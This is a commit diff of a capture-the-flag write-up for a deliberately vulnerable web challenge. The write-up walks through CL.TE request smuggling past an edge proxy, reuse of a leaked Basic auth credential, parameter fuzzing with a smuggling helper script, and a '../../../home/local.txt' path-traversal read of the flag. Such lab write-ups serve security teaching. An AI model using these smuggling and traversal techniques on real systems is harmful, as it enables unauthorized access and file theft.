

Before and after one commit to GougasseHamza/web1, a Markdown page: writeup/writeup.md, 3 parts joined by grey strips. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/writeup/writeup.md
+++ b/writeup/writeup.md
@@ -207,14 +185,7 @@ The queue page contains a restore-runner note with a legacy connector header sti
 
 ![Smuggling proof with admin response](images/11-smuggling-proof-admin-response.png)
 
-The two values needed for the next stage are visible in the page:
-
-```text
-Authorization: Basic c3ZjLWF1ZGl0OmxlZGdlci1kcmlmdC0yMDI2
-GET /admin/archive
-```
-
-Progressive validation with the Python helper:
+I then used the helper to check the admin behavior step by step:
 
 ```bash
 python3 teamshelf-smuggler.py send "http://<host>:<port>" "/admin" --show-first
@@ -228,17 +199,17 @@ python3 teamshelf-smuggler.py send "http://<host>:<port>" "/admin?queue=upload-r
 
 ![Smuggler admin and queue validation](images/13-smuggler-admin-and-queue.png)
 
-At this stage, the smuggled request is no longer just proving access to `/admin`. It is being used as the transport for every backend-only archive request.
+From here, I used the same smuggling method for every backend-only archive request.
 
 ## Archive Endpoint
 
-The admin page points to `/admin/archive`, and the leaked header is required:
+I added the leaked Basic header to the smuggled request:
 
 ```http
 Authorization: Basic c3ZjLWF1ZGl0OmxlZGdlci1kcmlmdC0yMDI2
 ```
 
-Without the right selector parameter, the endpoint returns:
+Requesting `/admin/archive` without a selector returned:
 
 ```json
 {
@@ -246,17 +217,13 @@ Without the right selector parameter, the endpoint returns:
 }
 ```
 
-The parameter name is not shown in the page. Tested common names such as `file`, `path`, `object`, `key`, `id`, and `filename`.
-
-The Python helper supports the same check with a player-supplied wordlist:
+So I needed the parameter name. I tested common names manually and then fuzzed with my own parameter wordlist through the helper.
 
 ```bash
 python3 teamshelf-smuggler.py fuzz "http://<host>:<port>" burp-parameter-names.txt --value test.txt
 ```
 
-The value `test.txt` is intentionally harmless. The goal of this phase is not to find a real file yet; it is to identify which parameter changes the endpoint behavior.
-
-Using `id` does not change the backend error:
+I used `test.txt` only to see how the endpoint reacted. A wrong parameter like `id` kept the same error:
 
 ```http
 GET /admin/archive?id=test.txt HTTP/1.1
@@ -271,7 +238,7 @@ Connection: keep-alive
 }
 ```
 
-Using `filename` changes the behavior to an object lookup:
+When I switched to `filename`, the response changed to an object lookup:
 
 ```http
 GET /admin/archive?filename=test.txt HTTP/1.1
@@ -287,7 +254,11 @@ Connection: keep-alive
 }
 ```
 
-Parameter: `filename`.
+That response identified the parameter:
+
+```text
+filename
+```
 
 ![Archive parameter discovery](images/14-smuggler-archive-param-discovery.png)
 
@@ -339,16 +304,15 @@ SECdojo{...}
 
 ## Flag
 
-The flag is the content of:
-
 ```text
 /home/local.txt
 ```
 
-## Attack Path Summary
+## Final Chain
 
-- `/admin` is discovered from the upload-review business flow.
-- Direct admin access is blocked by the edge.
-- CL.TE desync reaches the backend-only admin queue.
-- The admin queue leaks an archived restore connector header.
-- The archive reader path traversal reads `/home/local.txt`.
+- I found `/upload` and used the upload rejection to discover `/admin?queue=upload-review`.
+- I confirmed direct `/admin` was blocked by the edge.
+- I used CL.TE smuggling with a Python helper script to reach the backend admin queue.
+- I copied the archived Basic header from the queue.
+- I fuzzed `/admin/archive` and found `filename`.
+- I used `filename=../../../home/local.txt` through the smuggled archive request to read the flag.
````
Also changed, not shown: other parts of writeup/writeup.md (+37 -65 lines).
